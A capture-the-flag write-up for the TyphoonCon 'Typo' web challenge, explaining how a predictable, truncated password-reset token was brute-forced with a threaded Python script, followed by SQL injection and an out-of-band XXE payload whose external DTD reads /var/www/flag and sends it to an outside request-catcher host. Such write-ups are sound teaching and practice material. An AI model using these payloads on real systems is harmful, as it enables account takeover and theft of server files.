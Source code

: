 ## Challenge Name: `Typo`

Category: Web (I shouldn't even be doing this category)  
Points: 100  

Challenge Description: 
```
I like to count in base 4 and not in base too, this is why this is hard

Look at my source code, as I am sure you can see my typo

https://typhooncon-typo.chals.io/

Flag format: SSD{...}
```
The challenge provided us with the source code of the webpage.


### Approach

Looking at the source code, the only weird thing we managed to find was that when you reset an user's password, they get emailed a token to change the password. When changing it, only the first 4 characters of the token are checked. Might be bruteforcable heh.
The token is calculated so:
```php
$uname = mysqli_real_escape_string($mysqli, $_POST['uname']);
$s = system("date +%s%3N > /tmp/time");
$time = file_get_contents("/tmp/time");
$fullToken = md5( $unam . $time . "SECRET" );
```
Hmm, is the misspelled `$uname` the typo? We know it anyways? Weird.
Anyways we can measure the time our request to the server takes and predict the timestamp. Writing it to a file and reading it back adds a newline though!

What should we do next? Change the password!
From the `robots.txt` file we know, that:
```
# Default username is 'admin' and ID is 1 if you didn't change it
/var/www/flag
```

To change the password we need to provide an ID, a token and the new password.
We can just keep sending password change requests until we see `Password changed` in the response. It's like 200 requests so not that bad.
Once logged in we have access to `data.php` which allows us to craft a sql injection. That's the only sql read, that doesn't sanitize the input.

```php
$uname = $_GET['u'];
$sql = "SELECT email FROM users where username='$uname'";

if( $result = $mysqli->query($sql) ){
	$data = @mysqli_fetch_array($result);
	$email = $data[0];
	echo $email;
}else{
	echo "Erorr";
}
```

We see, that `read.php` could have a XXE, cause it loads a XML file to check if an user exists? lol
Let's leak the UUID that's needed to get access to `read.php` with a sql injection.

### Solution
Using all of that described before. It's time to come up with a multi-part exploit.
Let's reset and change the password with a small python script:

```python
import time
import hashlib
import requests
from threading import Thread
from queue import Queue

INDEX_URL = "https://typhooncon-typo.chals.io/index.php"
RESET_URL = "https://typhooncon-typo.chals.io/forgot.php"
NEW_PASSWORD = 'nestingdoll'
CHANGE_URL = "https://typhooncon-typo.chals.io/change.php"
LOGIN_URL = "https://typhooncon-typo.chals.io/login.php"
DATA_URL = "https://typhooncon-typo.chals.io/data.php"
# Default username is 'admin' and ID is 1 if you didn't change it
# /var/www/flag

# Thanks https://betterprogramming.pub/how-to-make-parallel-async-http-requests-in-python-d0bd74780b8a
class Worker(Thread):
    """ Thread executing tasks from a given tasks queue """

    def __init__(self, tasks):
        Thread.__init__(self)
        self.tasks = tasks
        self.daemon = True
        self.start()

    def run(self):
        while True:
            func, args, kargs = self.tasks.get()
            try:
                func(*args, **kargs)
            except Exception as e:
                # An exception happened in this thread
                print(e)
            finally:
                # Mark this task as done, whether an exception happened or not
                self.tasks.task_done()

class ThreadPool:
    """ Pool of threads consuming tasks from a queue """

    def __init__(self, num_threads):
        self.tasks = Queue(num_threads)
        for _ in range(num_threads):
            Worker(self.tasks)

    def add_task(self, func, *args, **kargs):
        """ Add a task to the queue """
        self.tasks.put((func, args, kargs))

    def map(self, func, args_list):
        """ Add a list of tasks to the queue """
        for args in args_list:
            self.add_task(func, args)

    def wait_completion(self):
        """ Wait for completion of all the tasks in the queue """
        self.tasks.join()

session = requests.session()

def postreq(url, parameters):
    return session.post(url, json=parameters).text

def getreq(url, parameters):
    return session.get(url, params=parameters).text

def validatetoken(token):
    payload = {'id': 1, 'sig': token}
    response = session.get(RESET_URL, params=payload)
    results[token] = "viewport" in response.text

results = {}

def run_exploit():
    pool = ThreadPool(30)
    offset = 0
    while True:
        token_hashes = []
        payload = {'uname': 'admin'}
        request_start_time = int(round(time.time() * 1000)) + 4000 + offset
        postreq(RESET_URL, payload)
        request_end_time = int(round(time.time() * 1000)) + 4000 + offset
        for i in range(request_end_time - request_start_time):
            cur_hash = hashlib.md5((str(request_start_time + i) + "\nSECRET").encode('utf-8')).hexdigest()
            if cur_hash[0:4] not in token_hashes:
                token_hashes.append(cur_hash[0:4])

        print("Generated {} md5 hashes for offset {}".format(len(token_hashes), 4000 + offset))
        #print("Checking tokens")
        correct_token = ''
        results.clear()
        # Validate token
        pool.map(validatetoken, token_hashes)
        pool.wait_completion()
        if True in results.values():
            for token in token_hashes:
                if results[token] == True:
                    print("Correct token found: {}".format(token))
                    correct_token = token
                    
            # Change password
            print("Trying to change password with token {}!".format(correct_token))
            payload = {'uid': 1, 'psw': NEW_PASSWORD, 'token': correct_token}
            fheaders = {'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8'}
            response = session.post(CHANGE_URL, headers=fheaders, data=payload).text
            if "Password Changed" in response:
                print("Password changed successfully")
                print("Trying to log in with new password")
                payload = {'uname': 'admin', 'psw': NEW_PASSWORD}
                response = session.post(LOGIN_URL, headers=fheaders, data=payload).text
                if "profile" in response:
                    print("Login successful")

                    print("Trying to find entry")
                    payload = {'u': '\' UNION SELECT user() -- '}
                    response = getreq(DATA_URL, payload)
                    print(response)
                    exit()
                else:
                    print("Unable to log in")
                    print(response)
                    exit()
            else:
                print("Unable to change password")
                exit()
        offset = (offset + 100) % 3100

if __name__ == '__main__':
    print("Starting exploit")
    run_exploit()
```

With the admin password changed we can log on in the browser using username admin and password nestingdoll.

My teammate was able to leak the UUID needed to exploit the XML files. I'm not sure what the correct SQL injection was, but the UUID was `8d6ed261-f84f-4eda-b2d2-16332bd8c390`
Next from the developer console using a small javascript code I was able to send custom XML files to `read.php`
In the end the working XXE hosted a external DTD which sent us the flag.
Used XXE:
`<\?xml version="1.0" encoding="UTF-8"?><!DOCTYPE replace [<!ENTITY % xxe SYSTEM "https://get.station307.com/OwKvYH1R6Mt/test.dtd"> %xxe; %ent; %send;]><user><username>admin</username></user>`
Used DTD:
`<!ENTITY % data SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/flag"><!ENTITY % ent "<!ENTITY &#x25; send SYSTEM 'https://nestingdoll.free.beeceptor.com/?%data;'>">`

As PHP doesn't support newlines in an url, we need to convert the contents of flag to base64. With multiple failed attemps I finally got a request to my beeceptor link with the base64 contents.
Decoding the base64 gives us the flag.
Flag:

```
I wish fllllaggggg was spelllllled with multple gggg and lllll
SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}
```

---
[Back to home](https://ergoadams.github.io/writeups/typhooncon2022/)